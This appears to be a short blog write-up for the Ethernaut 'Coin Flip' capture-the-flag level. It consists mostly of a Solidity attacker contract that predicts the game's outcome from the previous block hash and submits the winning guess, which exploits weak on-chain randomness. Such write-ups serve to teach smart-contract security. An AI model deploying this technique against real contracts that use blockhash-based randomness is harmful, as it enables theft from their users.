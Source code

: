 +++
title = 'Ethernaut Level 3 - Coin'
date = 2024-08-04
draft = false

featured_image =  '/images/ethernaut.png'
background_image= '/images/ethernaut.png'
summary = 'Beat a badly implemented PRNG'
tags = [ 'writeups' , 'blockchain', 'ethernaut' ]
+++

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.25;

interface CoinFlip  {
    function flip(bool _guess) external  returns (bool) ;
}

contract hackCoinFlip {
    CoinFlip  originalContract;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _addr){
        originalContract = CoinFlip(_addr);
    }

    function hackFlip() public {
        
        // pre-deteremine the flip outcome
        uint256 blockValue = uint256(blockhash(block.number-1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        // Interact with original contract
        originalContract.flip(side);
    }
}

```